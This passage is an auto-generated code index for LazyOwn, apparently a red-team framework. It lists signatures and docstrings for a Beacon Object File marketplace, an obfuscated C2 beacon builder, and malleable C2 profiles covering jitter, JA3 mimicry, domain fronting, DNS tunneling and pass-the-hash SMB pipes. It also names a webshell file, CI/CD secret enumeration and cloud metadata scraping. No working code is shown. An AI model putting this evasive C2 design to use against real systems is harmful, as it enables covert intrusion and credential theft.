    name: Unique identifier (e.g., 'ldap_enum').
    description: Human-readable description.
    author: Author or organization.
    url: Repository URL.
    source_file: Relative path to the C source file in the repo.
    platform: Target platform for the compiled BOF.
    category: Functional category.
    required_args: List of required argument names.
    optional_args: List of optional argument names.
    mitre_technique: MITRE ATT&CK technique ID (e.g., 'T1018').
    sha256: SHA-256 hash of the canonical source file (empty until audited).
    min_beacon_version: Minimum beacon version required.
    dependencies: List of dependency BOF names.*
- `BofCatalog` (line 157) `class BofCatalog` - *Curated catalog of known Beacon Object Files.

The catalog is a static index maintained by the LazyOwn team. Entries
are added via ``register()`` and persisted to disk as JSON for sharing
between operator sessions.*
- `BofValidator` (line 506) `class BofValidator` - *Validates BOF integrity and compatibility.

Checks SHA-256 hashes of downloaded source files against the
catalog, verifies platform compatibility, and validates that
required arguments are supplied.*
- `BofRegistry` (line 552) `class BofRegistry` - *Manages BOF installations on disk with version tracking.

Each installed BOF is tracked in a manifest JSON file with the
installation timestamp, BOF version, and source URL.*
- `BofMarketplace` (line 639) `class BofMarketplace` - *BOF discovery, installation, and management interface.

Composes a BofCatalog (curated index) and a BofRegistry (disk
state) to provide search/install/uninstall/info operations.

Attributes:
    catalog: The curated BOF catalog.
    registry: The disk-backed BOF registry.
    validator: The BOF hash/args validator.*

**Functions:**
- `_build_default_catalog` (line 265) `def _build_default_catalog()` - *Build the default curated BOF catalog.

This catalog includes well-known open-source BOFs compatible with
the TrustedSec SA BOF API. Maintainers should add verified entries
to this function.*

**Methods:**
- `to_dict` (line 118) `def to_dict(self)` - *Serialize to dictionary.*
- `from_dict` (line 137) `def from_dict(cls, raw)` - *Build from a dictionary.*
- `register` (line 167) `def register(self, entry)` - *Register a BOF entry in the catalog.*
- `register_many` (line 172) `def register_many(self, entries)` - *Register multiple BOF entries at once.*
- `get` (line 177) `def get(self, name)` - *Retrieve a BOF entry by name.

Raises KeyError if not found.*
- `search` (line 188) `def search(self, query)` - *Search catalog by keyword across name, description, and technique.

Args:
    query: Case-insensitive search keyword.

Returns:
    List of matching BofEntry objects, sorted by relevance.*
- `list_by_category` (line 221) `def list_by_category(self, category)` - *Return all BOFs in a specific category.*
- `list_by_platform` (line 225) `def list_by_platform(self, platform)` - *Return all BOFs for a specific platform.*
- `list_all` (line 229) `def list_all(self)` - *Return all catalog entries sorted by name.*
- `to_dict` (line 233) `def to_dict(self)` - *Serialize the entire catalog to a dictionary.*
- `from_dict` (line 241) `def from_dict(cls, raw)` - *Build a catalog from a dictionary.*
- `load` (line 249) `def load(cls, path)` - *Load a catalog from a JSON file.*
- `save` (line 257) `def save(self, path)` - *Save the catalog to a JSON file.*
- `compute_sha256` (line 515) `def compute_sha256(filepath)` - *Compute the SHA-256 hash of a file.*
- `verify_entry` (line 524) `def verify_entry(entry, filepath)` - *Verify the SHA-256 of a downloaded BOF source matches the catalog.

Returns (ok, reason). If entry.sha256 is empty, verification is
skipped with an informational message.*
- `validate_args` (line 540) `def validate_args(entry, args)` - *Validate that all required arguments are supplied.

Returns a list of missing argument names (empty = valid).*
- `__init__` (line 559) `def __init__(self, sessions_dir)`
- `install_dir` (line 565) `def install_dir(self)` - *Return the BOF installation directory.*
- `_load_manifest` (line 569) `def _load_manifest(self)` - *Load the installation manifest from disk.*
- `_save_manifest` (line 580) `def _save_manifest(self, manifest)` - *Save the installation manifest to disk.*
- `is_installed` (line 585) `def is_installed(self, name)` - *Return True if a BOF is installed.*
- `install` (line 590) `def install(self, entry)` - *Register a BOF as installed with current timestamp.

Returns the install directory for this BOF.*
- `uninstall` (line 611) `def uninstall(self, name, remove_files)` - *Unregister a BOF from the manifest and optionally remove its files.

Returns True if the BOF was installed and successfully removed.*
- `list_installed` (line 628) `def list_installed(self)` - *Return a list of all installed BOFs with metadata.*
- `get_install_info` (line 633) `def get_install_info(self, name)` - *Return installation metadata for a BOF, or None if not installed.*
- `__init__` (line 651) `def __init__(self, sessions_dir, catalog)`
- `catalog` (line 662) `def catalog(self)` - *Return the catalog.*
- `registry` (line 667) `def registry(self)` - *Return the registry.*
- `search` (line 671) `def search(self, query)` - *Search the catalog and return enriched results with install status.

Args:
    query: Search keyword (name, description, technique, category).

Returns:
    List of dicts with BOF metadata plus `installed` flag.*
- `info` (line 690) `def info(self, name)` - *Get detailed information about a BOF by name.

Includes catalog metadata plus install state.
Returns a dict with 'error' key if not found.*
- `install` (line 707) `def install(self, name)` - *Install a BOF from the catalog by name.

Registers the BOF in the disk manifest. Does NOT clone
the source repository; the operator is expected to have
the catalog repository already cloned, or use a separate
install step for source retrieval.

Returns a dict with status information.*
- `uninstall` (line 736) `def uninstall(self, name)` - *Uninstall a BOF by name.

Returns a dict with uninstall status.*
- `list_installed` (line 749) `def list_installed(self)` - *List all installed BOFs with catalog enrichment.*
- `list_missing_dependencies` (line 761) `def list_missing_dependencies(self, name)` - *Return a list of dependencies for a BOF that are not installed.*
- `bulk_install` (line 769) `def bulk_install(self, names)` - *Install multiple BOFs at once.

Returns a dict mapping BOF name to result dict.*

#### `c2_builder.py`
**Path:** `modules/c2_builder.py`
**File Doc:** *C2 agent builder with profile-driven compilation and safe templating.  Extracted from ``LazyOwnShell.do_c2`` to reduce the 520-line god-method into a testable, profile-driven builder.*

**Classes:**
- `C2Profile` (line 76) `class C2Profile` - *Compilation profile for a target platform.*
- `C2Builder` (line 392) `class C2Builder` - *Build C2 agents for multiple platforms.*

**Functions:**
- `_resolve_go_bin` (line 44) `def _resolve_go_bin()` - *Return the full path to the go binary.

Checks shutil.which first, then known installation directories.
Returns the bare name 'go' as a last resort so error messages stay readable.*
- `_ensure_go` (line 59) `def _ensure_go(cmd_fn)` - *Guarantee a go binary is available, installing via apt if needed.

Returns the resolved path to go so callers can build explicit commands.*
- `_preflight` (line 160) `def _preflight(profile)` - *Check that all required external binaries are present.*
- `_render_template` (line 169) `def _render_template(content, context)` - *Render a template by replacing {key} placeholders with context values.*
- `_resolve_fallback_urls` (line 180) `def _resolve_fallback_urls(params)` - *Collect disposable redirector URLs for the Go beacon fallback list.

Sources, in order: ``c2_fallback_urls`` param (list or comma string),
``sessions/redirectors.json`` state, and ``cf.log`` quick-tunnel URLs.

Args:
    params: Live shell params dict.

Returns:
    Deduplicated fallback URL list.*
- `_go_string_list` (line 220) `def _go_string_list(urls)` - *Format URLs as a Go string slice body.

Args:
    urls: URL list.

Returns:
    Go source fragment like ``"a", "b"`` or ``""`` when empty.*
- `_parse_go_version` (line 234) `def _parse_go_version(text)` - *Parse a ``go version`` output line into a version triple.

Args:
    text: Raw output such as ``go version go1.26.5 linux/amd64``.

Returns:
    ``(major, minor, patch)`` triple, or None when unparseable.*
- `_command_output` (line 249) `def _command_output(argv, timeout)` - *Run a command in list form and return stripped stdout.

Args:
    argv: Argument vector, never a shell string.
    timeout: Seconds before aborting.

Returns:
    Stripped stdout on success, None on any failure.*
- `_go_build_version` (line 268) `def _go_build_version(go_bin, target)` - *Report the Go toolchain version that built a binary.

Uses ``go version <file>``, which prints the compiler version stamped
into the binary at build time.

Args:
    go_bin: Go binary used to query.
    target: Binary to inspect (``go`` itself or ``garble``).

Returns:
    Version triple, or None when it cannot be determined.*
- `_garble_matches_toolchain` (line 287) `def _garble_matches_toolchain(go_bin, garble_bin)` - *Check whether garble was built with the current Go toolchain.

A stale garble aborts every build with ``was built with ... can't be
used with the newer ...``. Go enforces an exact toolchain match, so the
full triple is compared before the build starts.

Args:
    go_bin: Current Go binary.
    garble_bin: Garble binary to validate.

Returns:
    True when versions match exactly or cannot be determined.*
- `_build_compile_commands` (line 310) `def _build_compile_commands(sessions_dir, profile, gocompiler, compile_flags, main_out, main_src, listener_out, listener_src, monitor_out, monitor_src)` - *Build the three Go compile commands for the beacon pipeline.

Every command is prefixed with ``cd <sessions> &&`` so the shell
dispatcher routes it through ``bash -c``. A bare ``CGO_ENABLED=0 ...``
prefix would otherwise be split as an argv and fail with
``FileNotFoundError: 'CGO_ENABLED=0'``.

Args:
    sessions_dir: Sessions directory for the build working copy.
    profile: Target platform profile with goos/goarch/cc/cgo/loader.
    gocompiler: Compiler command prefix (garble or plain go).
    compile_flags: ldflags fragment.
    main_out: Output path of the main beacon binary.
    main_src: Main beacon source file.
    listener_out: Output path of the listener binary.
    listener_src: Listener source file.
    monitor_out: Output path of the monitor binary.
    monitor_src: Monitor source file.

Returns:
    Tuple of (main, listener, monitor) shell commands.*
- `_build_context` (line 361) `def _build_context(sessions_dir)` - *Backup ``sessions_dir`` before build and restore on failure.*
- `_replacer` (line 173) `def _replacer(match)`
- `_read` (line 641) `def _read(path_)`
- `_read_required` (line 648) `def _read_required(path_)`
- `_write` (line 652) `def _write(path_, content)`

**Methods:**
- `__init__` (line 395) `def __init__(self, params, sessions_dir, cmd_fn, onecmd_fn, toastr_fn, c2_user, c2_pass)`
- `_ensure_garble_toolchain` (line 413) `def _ensure_garble_toolchain(self, go_bin, garble_bin, gocompiler, profile)` - *Validate the Go toolchain before compiling and repair it.

Checks that garble exists, was built with the current Go release
(a stale garble aborts with ``can't be used with the newer ...``),
and that a C compiler is available when the profile needs CGO.
A stale garble is reinstalled automatically; when repair fails the
build falls back to plain ``go build`` instead of aborting.

Args:
    go_bin: Resolved Go binary.
    garble_bin: Resolved garble binary path.
    gocompiler: Current compiler command prefix.
    profile: Target platform profile.

Returns:
    Usable compiler command prefix.*
- `run` (line 453) `def run(self, line, choice, use_tunnel)` - *Execute the full C2 build pipeline.

Returns a dict with build artefacts and metadata so the caller can
update shell state (``c2_url``, ``c2_clientid``, ``c2_auth``).*

#### `c2_messaging_base.py`
**Path:** `modules/c2_messaging_base.py`

**Classes:**
- `SecureSessionManager` (line 9) `class SecureSessionManager` - *Unified session manager for C2 messaging bots.

Provides login, rate limiting, lockout, and session validation
shared across Discord, Telegram, and Slack C2 bots.

Args:
    max_failed_attempts: Maximum failed login attempts before lockout.
    lockout_duration: Lockout duration in seconds.
    rate_limit: Maximum commands per 60-second window.
    session_timeout: Session inactivity timeout in seconds.*
- `PayloadConfigAdapter` (line 117) `class PayloadConfigAdapter` - *Adapter that wraps payload.json dict with attribute access.

Args:
    config_dict: The loaded payload.json dictionary.*

**Methods:**
- `__init__` (line 22) `def __init__(self, max_failed_attempts, lockout_duration, rate_limit, session_timeout)`
- `register_failed_attempt` (line 37) `def register_failed_attempt(self, user_id)` - *Record a failed authentication attempt for a user.*
- `check_lockout` (line 46) `def check_lockout(self, user_id)` - *Check if a user is currently locked out due to failed attempts.

Returns:
    bool: True if locked out, False otherwise.*
- `check_rate_limit` (line 61) `def check_rate_limit(self, user_id)` - *Check if a user has exceeded the command rate limit.

Returns:
    bool: True if allowed, False if rate-limited.*
- `create_session` (line 79) `def create_session(self, user_id, client_id)` - *Create a new authenticated session for a user.*
- `validate_session` (line 89) `def validate_session(self, user_id)` - *Check if a user session is still valid and refresh activity timestamp.

Returns:
    bool: True if session is valid, False otherwise.*
- `set_client` (line 106) `def set_client(self, user_id, client_id)` - *Assign a target C2 client to a user session.*
- `get_client` (line 111) `def get_client(self, user_id)` - *Get the target C2 client assigned to a user session.*
- `__init__` (line 124) `def __init__(self, config_dict)`
- `__getitem__` (line 129) `def __getitem__(self, key)`
- `get` (line 132) `def get(self, key, default)`

#### `c2_profile.py`
**Path:** `modules/c2_profile.py`
**File Doc:** *modules/c2_profile.py ====================== Malleable C2 profile system for LazyOwn.  Controls beacon HTTP behavior: headers, URIs, sleep timing, jitter, user-agent, and staging configuration.  Architecture follows SOLID principles: - Single Responsibility: each class handles one concern - Open/Closed: new profiles registered without modifying existing code - Liskov: dataclasses are safely substitutable - Interface Segregation: ProfileApplier separates Flask/requests concerns - Dependency Inversion: loaders/validators depend on abstractions (dicts/paths)  Usage: from modules.c2_profile import get_profile, list_profiles, get_registry  profile = get_profile("stealth") delay   = profile.jitter_delay() headers = profile.build_headers("GET") uri     = profile.get_uri("POST")  CLI: python3 modules/c2_profile.py --list python3 modules/c2_profile.py --show stealth*

**Classes:**
- `SleepConfig` (line 54) `class SleepConfig` - *Sleep and jitter configuration for a beacon.*
- `HttpConfig` (line 62) `class HttpConfig` - *HTTP request configuration for one direction (GET or POST).*
- `StagerConfig` (line 72) `class StagerConfig` - *Staging payload configuration.*
- `C2Profile` (line 81) `class C2Profile` - *Complete malleable C2 profile.

Encapsulates all behavioral parameters that govern how a beacon
communicates over HTTP.*
- `ProfileValidator` (line 155) `class ProfileValidator` - *Validates a C2Profile instance.

Returns a list of error strings; an empty list means the profile is valid.*
- `ProfileLoader` (line 187) `class ProfileLoader` - *Loads and saves C2Profile objects from/to YAML or dict representations.

Depends on PyYAML when loading YAML files; falls back with a clear error
if PyYAML is not installed.*
- `ProfileRegistry` (line 449) `class ProfileRegistry` - *In-memory registry of named C2Profile objects.

Register custom profiles at runtime, or load an entire directory of
YAML files.*
- `ProfileApplier` (line 520) `class ProfileApplier` - *Applies a C2Profile to Flask responses or requests.Session objects.

This class has no state; all methods are pure functions of their
arguments.*

**Functions:**
- `_make_default_profile` (line 308) `def _make_default_profile()`
- `_make_stealth_profile` (line 339) `def _make_stealth_profile()`
- `_make_aggressive_profile` (line 385) `def _make_aggressive_profile()`
- `_make_debug_profile` (line 410) `def _make_debug_profile()`
- `get_registry` (line 595) `def get_registry()` - *Return the module-level singleton ProfileRegistry.

On first call, registers the four built-in profiles and then scans the
default profiles directory for additional YAML files.*
- `get_profile` (line 620) `def get_profile(name)` - *Return the named profile from the module singleton registry.*
- `list_profiles` (line 625) `def list_profiles()` - *Return a sorted list of all registered profile names.*

**Methods:**
- `jitter_delay` (line 101) `def jitter_delay(self)` - *Return the next sleep delay as a float in seconds.

The delay is interval_ms/1000 scaled by a random multiplier in
[1 - jitter_pct/100 , 1 + jitter_pct/100].*
- `get_uri` (line 117) `def get_uri(self, method)` - *Pick a random URI path from the appropriate HttpConfig.

Parameters
----------
method : "GET" or "POST" (case-insensitive)*
- `build_headers` (line 128) `def build_headers(self, method)` - *Return the headers dict for the given HTTP method.

The returned dict is a shallow copy; callers may mutate it freely.*
- `_config_for` (line 144) `def _config_for(self, method)`
- `validate` (line 162) `def validate(self, profile)`
- `from_yaml` (line 200) `def from_yaml(path)` - *Load a C2Profile from a YAML file at *path*.*
- `from_dict` (line 215) `def from_dict(d)` - *Construct a C2Profile from a plain Python dictionary.*
- `to_dict` (line 254) `def to_dict(profile)` - *Convert a C2Profile to a plain Python dictionary.*
- `save` (line 282) `def save(profile, path)` - *Serialise *profile* to a YAML file and return the written path.*
- `__init__` (line 457) `def __init__(self)`
- `register` (line 464) `def register(self, name, profile)` - *Register *profile* under *name*, overwriting any previous entry.*
- `get` (line 473) `def get(self, name)` - *Return the profile registered under *name*.

Raises KeyError if no such profile exists.*
- `list_names` (line 485) `def list_names(self)` - *Return a sorted list of all registered profile names.*
- `load_from_directory` (line 493) `def load_from_directory(self, path)` - *Scan *path* for *.yaml files and register each as a profile.

Returns the count of successfully loaded profiles.*
- `apply_to_response` (line 529) `def apply_to_response(profile, response)` - *Patch the headers of a Flask response object to match the profile.

Sets appropriate Cache-Control and removes server-identifying headers.
The response object is mutated in-place and also returned.*
- `apply_to_session` (line 554) `def apply_to_session(profile, session)` - *Configure a requests.Session to mimic the profile's HTTP GET behavior.

Sets headers and User-Agent on *session* and returns it.*
- `get_beacon_config` (line 567) `def get_beacon_config(profile)` - *Return a JSON-serialisable dict suitable for embedding in a beacon
handshake response.

The dict contains only the fields a beacon needs to self-configure;
it does not expose full header details.*

#### `c2_profile_engine.py`
**Path:** `modules/c2_profile_engine.py`
**File Doc:** *Extended malleable C2 profile engine with TLS, DNS, SMB, and WebSocket transports.  Complements ``modules/c2_profile.py`` by adding transport-layer profile types and profile rotation. The base module handles HTTP profiles; this module extends to the full transport stack required by modern C2 frameworks.  Contracts: - C2TransportProfile: base dataclass for transport profiles - TlsProfile: TLS 1.2/1.3 cipher suites, JA3/JA4 fingerprinting config - DnsProfile: DNS beacon configuration (A/AAAA/TXT, encoding, jitter) - SmbProfile: SMB peer-to-peer named pipe beacon config - WebSocketProfile: WebSocket transport with compression and masking - ProfileRotator: round-robin profile rotation with cooldown windows - ProfileEngine: composition root combining HTTP profiles from c2_profile.py with transport profiles defined here  Design (SOLID): - Single Responsibility: each class handles one transport concern - Open/Closed: new transports registered via dataclass without modifying engine - Liskov: all transport profiles are safely substitutable dataclasses - Interface Segregation: each profile exposes only its own config surface - Dependency Inversion: engine depends on abstract profile dicts, not on Flask  Usage: from modules.c2_profile_engine import ( ProfileEngine, TlsProfile, DnsProfile, SmbProfile, WebSocketProfile,*

**Classes:**
- `TlsProfile` (line 117) `class TlsProfile` - *TLS transport configuration for HTTPS and WSS C2 channels.

Attributes:
    enabled: Whether TLS is active for this transport.
    min_version: Minimum TLS version string ('1.2' or '1.3').
    max_version: Maximum TLS version string.
    cipher_suites: Ordered list of cipher suite names.
    sni_hostname: Server Name Indication value (domain fronting).
    certificate_path: Path to custom TLS certificate PEM file.
    key_path: Path to custom TLS private key PEM file.
    ja3_fingerprint_library: Browser library to emulate for JA3.
    grease_extensions: Whether to include GREASE TLS extensions.
    alpn_protocols: Application-Layer Protocol Negotiation values.*
- `DnsProfile` (line 205) `class DnsProfile` - *DNS tunneling beacon configuration.

Controls how the DNS beacon encodes commands and results in DNS
queries, including encoding scheme, domain structure, and timing.

Attributes:
    enabled: Whether DNS transport is active.
    domain: Parent domain for DNS queries (sub.<domain>).
    query_types: Allowed DNS query types.
    encoding: Data encoding scheme (base32, base64, hex, raw).
    max_query_length: Maximum length of a single DNS query label.
    idle_jitter_ms: Jitter in milliseconds between idle queries.
    poll_interval_ms: Polling interval in milliseconds.
    ttl_cache_bypass: Use unique subdomains to bypass DNS caching.*
- `SmbProfile` (line 289) `class SmbProfile` - *SMB peer-to-peer named pipe beacon configuration.

Controls the named pipe path, authentication mechanism, and
retransmission settings for chained beacon communication over
SMB named pipes within an internal network.

Attributes:
    enabled: Whether SMB transport is active.
    pipe_name: Named pipe path (e.g., '\\\.\pipe\MyPipe').
    domain: Windows domain for authentication.
    username: SMB authentication username.
    ntlm_hash: NTLM hash for pass-the-hash authentication.
    retry_count: Maximum retransmission attempts.
    retry_interval_ms: Delay between retries in milliseconds.
    timeout_ms: I/O operation timeout in milliseconds.
    encrypt_traffic: Whether to request SMB encryption (3.x+).*
- `WebSocketProfile` (line 349) `class WebSocketProfile` - *WebSocket transport configuration for beacon channels.

Attributes:
    enabled: Whether WebSocket transport is active.
    protocol: 'ws' or 'wss'.
    path: URI path for the WebSocket endpoint.
    origin: Origin header value for the handshake.
    subprotocols: WebSocket subprotocol list.
    use_compression: Enable per-message deflate extension.
    use_masking: Apply client-to-server masking (RFC 6455).
    heartbeat_interval_ms: Ping/pong heartbeat interval.
    max_message_size_kb: Maximum inbound message size in KB.*
- `TransportType` (line 404) `class TransportType(Enum)` - *Enumeration of supported C2 transport types.*
- `RotationSlot` (line 414) `class RotationSlot` - *Tracks a profile slot in the rotation queue.

Attributes:
    name: Human-readable slot name.
    transport: Transport type this slot activates.
    last_used_at: Unix timestamp of last activation.
    cooldown_s: Minimum seconds between activations.*
- `ProfileRotator` (line 441) `class ProfileRotator` - *Round-robin profile rotation with cooldown windows.

Maintains a queue of RotationSlot objects and advances the active
slot on each call to ``rotate()``. Slots that are within their
cooldown window are skipped automatically.

Attributes:
    slots: Ordered list of rotation slots.
    current_index: Index of the currently active slot.*
- `ProfileValidator` (line 503) `class ProfileValidator` - *Validates transport profile configurations.

Checks for logical inconsistencies such as enabled profiles
missing required fields (domain for DNS, pipe name for SMB).*
- `ProfileEngine` (line 611) `class ProfileEngine` - *Composition root for the extended C2 profile system.

Combines HTTP profiles from ``modules.c2_profile.py`` with transport
profiles (TLS, DNS, SMB, WebSocket) defined in this module. Provides
profile rotation and validation across all transport layers.

Attributes:
    tls_profile: Active TLS configuration.
    dns_profile: Active DNS beacon configuration.
    smb_profile: Active SMB peer-to-peer configuration.
    websocket_profile: Active WebSocket configuration.
    rotator: ProfileRotator instance for auto-rotation.
    validator: ProfileValidator for transport-level validation.*

**Methods:**
- `get_cipher_suites` (line 144) `def get_cipher_suites(self)` - *Return cipher suites, resolving library alias if set.*
- `get_ja3_hash` (line 155) `def get_ja3_hash(self)` - *Compute a JA3 fingerprint hash from the current profile.

Returns an MD5 hex digest simulating what a JA3 fingerprint
would look like for this profile's TLS client hello.*
- `from_dict` (line 173) `def from_dict(raw)` - *Build a TlsProfile from a configuration dictionary.*
- `to_dict` (line 188) `def to_dict(self)` - *Serialize this profile to a plain dictionary.*
- `build_query_subdomain` (line 231) `def build_query_subdomain(self, data, packet_id)` - *Build a DNS query subdomain from encoded data and a packet ID.

Args:
    data: Raw bytes to encode in the subdomain.
    packet_id: Sequence number for TTL cache bypass.

Returns:
    A subdomain string like 'abc123.sessions.mydomain.com'.*
- `from_dict` (line 261) `def from_dict(raw)` - *Build a DnsProfile from a configuration dictionary.*
- `to_dict` (line 274) `def to_dict(self)` - *Serialize this profile to a plain dictionary.*
- `from_dict` (line 319) `def from_dict(raw)` - *Build an SmbProfile from a configuration dictionary.*
- `to_dict` (line 333) `def to_dict(self)` - *Serialize this profile to a plain dictionary.*
- `from_dict` (line 375) `def from_dict(raw)` - *Build a WebSocketProfile from a configuration dictionary.*
- `to_dict` (line 389) `def to_dict(self)` - *Serialize this profile to a plain dictionary.*
- `is_available` (line 429) `def is_available(self)` - *Return True if the cooldown window has elapsed.*
- `touch` (line 436) `def touch(self)` - *Mark this slot as just used.*
- `__init__` (line 453) `def __init__(self, slots)`
- `current_slot` (line 460) `def current_slot(self)` - *Return the currently active rotation slot.*
- `transport` (line 465) `def transport(self)` - *Return the transport type of the current slot.*
- `rotate` (line 469) `def rotate(self)` - *Advance to the next available slot and return it.

Skips slots still in their cooldown window. If all slots are
on cooldown, the cooldowns are reset and rotation starts fresh.*
- `list_slots` (line 487) `def list_slots(self)` - *Return a list of slot states for inspection.*
- `validate_tls` (line 511) `def validate_tls(profile)` - *Validate a TlsProfile and return error messages.*
- `validate_dns` (line 536) `def validate_dns(profile)` - *Validate a DnsProfile and return error messages.*
- `validate_smb` (line 556) `def validate_smb(profile)` - *Validate an SmbProfile and return error messages.*
- `validate_websocket` (line 576) `def validate_websocket(profile)` - *Validate a WebSocketProfile and return error messages.*
- `validate_all` (line 591) `def validate_all(self, tls, dns, smb, websocket)` - *Validate all provided profiles and return a dict of transport -> errors.*
- `__init__` (line 627) `def __init__(self, tls_profile, dns_profile, smb_profile, websocket_profile, rotation_slots)`
- `tls_profile` (line 643) `def tls_profile(self)` - *Return the current TLS profile.*
- `dns_profile` (line 648) `def dns_profile(self)` - *Return the current DNS profile.*
- `smb_profile` (line 653) `def smb_profile(self)` - *Return the current SMB profile.*
- `websocket_profile` (line 658) `def websocket_profile(self)` - *Return the current WebSocket profile.*
- `rotator` (line 663) `def rotator(self)` - *Return the profile rotator.*
- `active_transport` (line 668) `def active_transport(self)` - *Return the currently active transport type.*
- `rotate` (line 672) `def rotate(self)` - *Advance to the next transport in the rotation queue.*
- `validate` (line 676) `def validate(self)` - *Validate all transport profiles and return error dict.*
- `get_active_profile_dict` (line 685) `def get_active_profile_dict(self)` - *Return a JSON-serializable dict of the active transport config.*
- `get_all_profiles_dict` (line 699) `def get_all_profiles_dict(self)` - *Return a JSON-serializable dict of all profiles.*
- `_default_slots` (line 709) `def _default_slots(self)` - *Build default rotation slots from enabled transports.*
- `from_dict` (line 747) `def from_dict(cls, raw)` - *Build a ProfileEngine from a configuration dictionary.

Expected structure:
    {
        "c2_tls": {...},
        "c2_dns": {...},
        "c2_smb": {...},
        "c2_websocket": {...}
    }*
- `from_payload` (line 766) `def from_payload(cls, payload)` - *Build a ProfileEngine from a LazyOwn payload configuration dict.*
- `from_config` (line 771) `def from_config(cls, config)` - *Build a ProfileEngine from a LazyOwn Config object.*

#### `categories.py`
**Path:** `modules/categories.py`
**File Doc:** *modules/categories.py ===================== cmd2 command category strings for LazyOwn.  Extracted from utils.py so they can be imported independently without pulling in the full utils dependency tree.  Usage: from modules.categories import recon_category, scanning_category*

*No symbols extracted*

#### `lazywebshell.py`
**Path:** `modules/cgi-bin/lazywebshell.py`

*No symbols extracted*

#### `cicd_enumerator.py`
**Path:** `modules/cicd_enumerator.py`
**File Doc:** *CI/CD Pipeline Enumeration Module.  Enumerates CI/CD platforms (Jenkins, GitLab, GitHub Actions) for: - Exposed build logs with leaked secrets - Misconfigured pipeline triggers (PRs from forks) - Unauthenticated pipeline execution - Build server credential stores - Repository secrets accessible to pipeline YAML - Artifact storage with sensitive build outputs*

**Classes:**
- `CICDFinding` (line 33) `class CICDFinding`
- `CICDEnumerator` (line 43) `class CICDEnumerator` - *Enumerate CI/CD platforms for security misconfigurations.

Supports Jenkins, GitLab CI, GitHub Actions, Bitbucket Pipelines,
and Azure DevOps.

Args:
    target_url: Base URL of the CI/CD platform.
    sessions_dir: Directory for discovery output.*

**Methods:**
- `__init__` (line 54) `def __init__(self, target_url, sessions_dir)`
- `scan` (line 60) `def scan(self)` - *Run all CI/CD scans.

Returns:
    List of CICDFinding objects.*
- `_check_jenkins` (line 73) `def _check_jenkins(self)`
- `_check_gitlab` (line 120) `def _check_gitlab(self)`
- `_check_github_actions` (line 189) `def _check_github_actions(self)`
- `_check_azure_devops` (line 230) `def _check_azure_devops(self)`
- `_check_bitbucket` (line 266) `def _check_bitbucket(self)`
- `scan_build_log` (line 297) `def scan_build_log(self, log_content, source)` - *Scan a build log for leaked secrets.

Args:
    log_content: Raw build log text.
    source: Description of the log source.

Returns:
    List of dicts with matched secrets.*
- `generate_ci_attack_matrix` (line 322) `def generate_ci_attack_matrix(self)` - *Generate a comprehensive CI/CD attack matrix.

Returns:
    Path to the JSON attack matrix file.*
- `export_findings` (line 387) `def export_findings(self)` - *Export CI/CD findings to a JSON file.

Returns:
    Path to the findings file.*

#### `cli_auth.py`
**Path:** `modules/cli_auth.py`
**File Doc:** *CLI authentication module — login against users.json with remember-me.  Authenticates CLI operators against the same ``users.json`` database used by lazyc2.py, using werkzeug's scrypt password verification.  Supports a "remember me" token stored in ``payload.json`` under ``cli_remember_token`` so operators can skip login on subsequent shell starts. The token is a random 48-byte URL-safe string bound to the username and stored both in ``payload.json`` and per-user in ``users.json`` entries.*

**Functions:**
- `_load_users` (line 34) `def _load_users()` - *Load the users.json database.

Returns:
    List of user dicts, or empty list on any error.*
- `_save_users` (line 52) `def _save_users(users)` - *Atomically write the users.json database.

Refuses to overwrite an existing database with an empty list (a read
failure upstream must never wipe the store), keeps the file readable
only by its owner, and preserves the previous owner when running as
root so mixed root / operator processes never lock each other out.

Args:
    users: List of user dicts to persist.

Returns:
    True on success.*
- `_load_payload` (line 85) `def _load_payload()` - *Load payload.json.

Returns:
    Payload dict, or empty dict.*
- `_save_payload` (line 100) `def _save_payload(payload)` - *Atomically write payload.json via the canonical config writer.

Delegates to :func:`core.config.save_payload` so remember-me
updates get the same crash-safe write and config-change audit as
every other payload mutation.

Args:
    payload: Payload dict to persist.

Returns:
    True on success, False on any error.*
- `user_exists` (line 122) `def user_exists(username)` - *Check if a username already exists in users.json or RBAC store.

Args:
    username: Username to check.

Returns:
    True if the username already exists.*
- `register` (line 145) `def register(username, password)` - *Register a new operator in users.json.

Follows the same logic as the lowazyc2.py /register endpoint.
First user becomes admin; subsequent users get the default role.
Minimum 12-character password.

Args:
    username: Desired username.
    password: Clelazyt password.

Returns:
    Dict with ``success``, ``username``, ``role`` keys.*
- `verify_password` (line 214) `def verify_password(username, password)` - *Verify a username/password against users.json using werkzeug.

Args:
    username: Operator username.
    password: Clear-text password attempt.

Returns:
    True if the credentials match a user in users.json.*
- `login` (line 240) `def login(username, password, remember)` - *Authenticate a CLI operator and optionally persist a remember-me token.

Args:
    username: Operator username.
    password: Clear-text password.
    remember: If True, persist a remember-me token in payload.json
        and users.json for auto-login on future shell starts.

Returns:
    Dict with ``success``, ``username``, ``elo``, ``role``, ``remember`` keys.*
- `logout` (line 293) `def logout()` - *Log out the current CLI operator and clear the remember-me token.

Returns:
    Dict with ``success`` key.*
- `try_auto_login` (line 328) `def try_auto_login()` - *Attempt auto-login using the remember-me token from payload.json.

Called at shell startup (preloop). If ``cli_auto_login`` is set in
payload.json and the token matches a user's stored token, logs in
silently without prompting for credentials.

Returns:
    Dict with ``success``, ``username``, ``elo``, ``role``.*
- `whoami` (line 366) `def whoami()` - *Return the currently logged-in CLI operator's identity.

Returns:
    Dict with ``logged_in``, ``username``, ``elo``, ``role``.*
- `get_current_operator` (line 396) `def get_current_operator()` - *Return the current operator username, or None if not logged in.

Returns:
    Username string or None.*
- `sync_elo_from_session` (line 408) `def sync_elo_from_session(elo)` - *Update the CLI session ELO from engagement state.

Args:
    elo: New ELO value to store in the session.*
- `_read_cli_session` (line 429) `def _read_cli_session()` - *Read the CLI session file.

Returns:
    Session dict or None.*
- `_write_cli_session` (line 444) `def _write_cli_session(username, elo, role)` - *Write the CLI session file.

Args:
    username: Operator username.
    elo: Current ELO score.
    role: RBAC role.*
- `_write_cli_session_raw` (line 462) `def _write_cli_session_raw(data)` - *Write arbitrary dict to the CLI session file.

Args:
    data: Session data dict.*
- `_clear_cli_session` (line 478) `def _clear_cli_session()` - *Remove the CLI session file.*
- `needs_login` (line 487) `def needs_login()` - *Check if the current session has a logged-in operator.

Returns:
    True if no valid session exists.*

#### `cloud_enum.py`
**Path:** `modules/cloud_enum.py`
**File Doc:** *Native cloud enumeration modules for AWS, Azure, and GCP.  Provides IMDS scraping, storage enumeration, IAM enumeration, and privilege escalation detection for major cloud providers.*

**Classes:**
- `CloudEnumerator` (line 23) `class CloudEnumerator` - *Enumerate cloud provider metadata, storage, and IAM from compromised hosts.

